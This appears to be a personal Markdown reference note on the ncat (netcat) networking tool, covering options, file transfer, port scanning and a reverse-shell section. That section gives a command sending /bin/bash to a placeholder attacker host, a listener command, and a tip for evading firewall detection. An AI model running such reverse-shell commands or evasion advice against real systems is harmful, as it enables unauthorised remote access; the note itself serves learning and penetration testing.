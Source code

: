 ```yaml
---
id: netcat
aliases:
  - netcat
  - ncat
  - nc
tags:
  - Networking/Tools/Netcat
links: "[[Netcat]]"
resources:
  - "[Ncat](https://nmap.org/ncat/)"
  - "[Ncat Users' Guide](https://nmap.org/ncat/guide/index.html)"
  - "[ncat - man7.org](https://www.man7.org/linux/man-pages/man1/ncat.1.html)"
  - "[Netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)"
---
```


# Netcat

`ncat` — Reimplementation of netcat maintained by the [Nmap](https://nmap.org/ncat/) team

## Usage

Synopsis

```sh
ncat [OPTIONS...] [hostname] [port]
```

<!-- Examples {{{-->
> [!example]-
>
> **Examples**
>
>```sh
># Execute the given command after connecting
>ncat -e /bin/bash localhost 8080
>
># Listen for incoming connections
>ncat -l 8080
>
># Do not resolve hostnames via DNS
>ncat -n localhost 8080
>
># Specify source port to use
>ncat -p 8080 localhost 8081
>
># Use source IP address
>ncat -s 192.168.1.5 localhost 8080
>
># Answer TELNET negotiation
>ncat -t localhost 8080
>
># Use UDP instead of default TCP
>ncat -u localhost 8080
>
># Verbose mode
>ncat -v localhost 8080
>
># Set a timeout for idle connection
>ncat -w 5 localhost 8080
>
># Zero-I/O mode, report connection status only
>ncat -z localhost 8080
>
># Banner grabbing
>nc -nv {target_ip} 21
>```
<!-- }}} -->

<!-- File Transfer {{{-->
### File Transfer

Listen to an incoming connection on port `8080` and write any received data to
`received_file`

```sh
ncat -l 8080 > received_file
```

Connect to a server on port `8080` and send the content of `file_to_send`

```sh
ncat localhost 8080 < file_to_send
```
<!-- }}} -->

<!-- Port Scanning {{{-->
### Port Scanning

Check if the port is open and then close the connection *(ports 80-90 through
`localhost`)*

```sh
ncat -v -n -z localhost 80-90
```
<!-- }}} -->

<!-- Reverse Shell {{{-->
### Reverse Shell

Initiate a connection back to the target machine

```sh
ncat {attacker_ip} {attacker_port} -e /bin/bash
```

Listen to an incoming connection

```sh
ncat -lvnp {listening port}
```

> [!tip]
>
> Keep the listening port below `1000` to avoid firewall detection
<!-- }}} -->

## Resources

- [Ncat](https://nmap.org/ncat/)
- [Ncat Users' Guide](https://nmap.org/ncat/guide/index.html)
- [ncat - man7.org](https://www.man7.org/linux/man-pages/man1/ncat.1.html)
- [Netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
